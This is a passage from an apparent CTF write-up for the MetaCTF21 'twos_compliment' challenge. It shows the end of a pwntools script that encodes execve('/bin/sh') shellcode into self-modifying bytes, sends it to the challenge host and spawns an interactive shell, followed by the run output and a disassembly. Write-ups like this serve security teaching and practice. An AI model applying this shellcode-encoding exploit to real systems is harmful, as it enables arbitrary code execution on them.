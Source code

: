```
xor rdx, rdx;
xor rax, rax;
mov al, 59;
syscall;
''') 
goal_shellcode += asm('NOP') * (binsh_position - starting_position  - len(goal_shellcode)) + b'/bin/sh\x00'

shellcode = encode(goal_shellcode, starting_position, binsh_position)


print(shellcode)
print(disasm(shellcode))

target.sendline(shellcode)

target.interactive()
```
And here is the output, with some of the disassembled NOPs removed for clarity:
```
knittingirl@piglet:~/CTF/metaCTF21/twos_compliment$ python3 two_compliment_writeup.py
[+] Opening connection to host1.metaproblems.com on port 5480: Done
b'What is your shellcode?'
b'\xb0\x80\xfe\xc0\xfe\x00\xb0\x82\xfe\x00\xb0\x86\xfe\xc0\xfe\x00\xb0\x8a\xfe\x00\xb0\x8c\xfe\xc0\xfe\x00\xb0\x90\xfe\x00\xb0\x90\xfe\xc0\xfe\x00\xb0\x92\xfe\x00\xb0\xf6\xfe\x00\xb0\xf8\xfe\x00\xb0\xfa\xfe\x00\xb0\xfa\xfe\xc0\xfe\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H\x80\xc6\xf6\x00\x00\x000\xf6H0\xd2H0\xc0\xb0:\x0e\x04\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90.bhn.rh\x00'
   0:   b0 80                   mov    al, 0x80
   2:   fe c0                   inc    al
   4:   fe 00                   inc    BYTE PTR [rax]
   6:   b0 82                   mov    al, 0x82
   8:   fe 00                   inc    BYTE PTR [rax]
   a:   b0 86                   mov    al, 0x86
   c:   fe c0                   inc    al
   e:   fe 00                   inc    BYTE PTR [rax]
  10:   b0 8a                   mov    al, 0x8a
  12:   fe 00                   inc    BYTE PTR [rax]
  14:   b0 8c                   mov    al, 0x8c
  16:   fe c0                   inc    al
  18:   fe 00                   inc    BYTE PTR [rax]
  1a:   b0 90                   mov    al, 0x90
  1c:   fe 00                   inc    BYTE PTR [rax]
  1e:   b0 90                   mov    al, 0x90
  20:   fe c0                   inc    al
  22:   fe 00                   inc    BYTE PTR [rax]
  24:   b0 92                   mov    al, 0x92
  26:   fe 00                   inc    BYTE PTR [rax]
  28:   b0 f6                   mov    al, 0xf6
  2a:   fe 00                   inc    BYTE PTR [rax]
  2c:   b0 f8                   mov    al, 0xf8
  2e:   fe 00                   inc    BYTE PTR [rax]
  30:   b0 fa                   mov    al, 0xfa
  32:   fe 00                   inc    BYTE PTR [rax]
  34:   b0 fa                   mov    al, 0xfa
  36:   fe c0                   inc    al
  38:   fe 00                   inc    BYTE PTR [rax]
  3a:   90                      nop
```